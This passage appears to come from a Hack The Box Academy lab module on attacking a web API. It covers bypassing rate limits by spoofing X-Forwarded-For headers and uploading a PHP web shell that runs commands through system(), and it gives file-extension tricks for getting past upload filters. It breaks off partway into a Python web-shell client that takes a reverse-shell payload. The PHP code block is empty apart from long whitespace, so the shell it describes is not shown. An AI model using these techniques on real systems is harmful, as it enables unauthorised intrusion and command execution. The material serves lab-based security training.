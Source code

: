 Now you can proceed to the end of this section and answer the first question!

**TIP**: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. See an example below.

```php
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   ?>

```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file\_get\_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
```